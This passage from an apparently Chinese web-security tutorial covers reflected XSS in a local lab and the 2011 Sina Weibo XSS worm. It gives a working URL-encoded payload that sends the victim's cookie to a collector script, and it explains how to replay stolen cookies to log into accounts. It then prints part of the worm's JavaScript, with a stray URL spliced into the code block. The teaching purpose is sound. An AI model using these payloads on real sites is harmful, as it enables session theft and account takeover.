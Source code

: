 这个 cookie.php 通过 GET 参数 cookie 来接收数据，那我们向它传递 document.cookie 的值就可以窃取想要的 cookie 了。基于此，我们重新构造 URL。

**注意要做 URL 编码，否则"+"连接符会被吃掉，导致无法窃取 cookie**。

```java
http://localhost/vul/xss/xss_reflected_get.php?message=%3Cscript%3Edocument.location+%3D+%27http%3A%2F%2Flocalhost%2Fpkxss%2Fxcookie%2Fcookie.php%3Fcookie%3D%27+%2B+document.cookie%3B%3C%2Fscript%3E&submit=submit
```

我们打开 http://localhost/pkxss/pkxss_login.php 上 XSS 后台（第一次使用时按提示点安装，然后用默认帐密登录：admin/123456），可以看到已经成功窃取到Cookie：

![图片11.png](https://s0.lgstatic.com/i/image/M00/8C/0E/CgqCHl_kTAmAQB_aAAEDK3yLJkY943.png)  
图 19：窃取到 Cookie

网上也有很多开源的 XSS 平台用来接收 Cookie，你在GitHub 搜索就可以找到很多，大多数可以直接通过 Docker 快速安装。

![Drawing 19.png](https://s0.lgstatic.com/i/image/M00/8B/9D/Ciqc1F_cOtaASyQeAAHRnEyplEU737.png)  
图 20：各种开源的 XSS 利用平台

获取 Cookie 后，我们就可以本地修改 Cookie 来登录受害者的账号（除非刚好窃取的 Cookie 不包含用户登录信息，比如未登录状态下访问的攻击链接），可以使用 Chrome 插件 EditThisCookie 来设置窃取的 Cookie：

![图片13.png](https://s0.lgstatic.com/i/image2/M01/04/3F/CgpVE1_r7hmATCQBAAHhyKThdOI750.png)  
图 21：EditThisCookie

还有另一款早期业界比较常用的工具，叫"桂林老兵 Cookie 欺骗工具"，以及在《01 \| 武器库：常用的渗透测试工具》中介绍的 Burp Suite，它们均支持修改 Cookie。

#### 蠕虫攻击

前面我介绍了 Samy 蠕虫，但并没有谈到XSS 蠕虫的实现技术。XSS 蠕虫的实现正是得益于Ajax 技术的出现，而后者正是 Web2.0 的标志性技术。

Ajax（Asynchronous JavaScript and XML，异步 JavaScript 和 XML）是指一种**创建交互式网页应用的网页开发技术**。这个概念比较抽象，具体讲就是在我们浏览网页，做一些操作时，可以减少浏览器的一些页面重绘操作，避免出现页面抖动、闪现之类的不适体验。这也正是 Web2.0 带来的改变。

Ajax 中的核心技术就是 XMLHttpRequest，它允许 JavaScript 脚本与服务器进行通信，在不刷新页面的情况下，向服务器发送请求或是接收服务器的响应数据。

下面我以之前影响比较大的新浪微博 XSS 蠕虫攻击事件为例，介绍 Ajax 技术在 XSS 蠕虫中的应用，从攻击代码来详细讲解。

![Drawing 21.png](https://s0.lgstatic.com/i/image/M00/8B/9D/Ciqc1F_cOu-AUgG8AAMoVNqvtj8470.png)  
图 22 ：新浪微博上感染 XSS 蠕虫的用户

2011年 6 月 28 日，新浪微博遭受 XSS 蠕虫的攻击，很多受害者被迫发布带有攻击链接的私信和微博。这些消息都带有一定的诱惑性，其他用户点击后也会此影响。受害者在感染后，都会自动关注一位名为"hellosamy"的微博用户（估计是效仿 Samy 蠕虫），然后向关注受害者的用户发送含有同样链接地址的私信，并发布含攻击链接的微博。得益于这种传播方式，在16 分钟内病毒就感染了33000 个用户。

我们来分析下新浪微博的 XSS 蠕虫代码：

```javascript
// 创建 XMLHttp 对象用于收发请求
function createXHR(){ 
    return window.XMLHttpRequest?
    new XMLHttpRequest():
    new ActiveXObject("Microsoft.XMLHTTP");
}
function getappkey(url){
    xmlHttp = createXHR();
    xmlHttp.open("GET",url,false); //获取 AppKey 不采用异步执行,等待请求返回 
    xmlHttp.send();
    result = xmlHttp.responseText;
    id_arr = '';
    // 正则匹配出 AppKey 数组,包含每个被收听用户的 uid 
    id = result.match(/namecard=\"true\" title=\"[^\"]*/g);
         https://beefproject.com/
    for(i=0;i<id.length;i++){
        sum = id[i].toString().split('"')[3];  //重新提取整理
        id_arr += sum + '||';
    }
```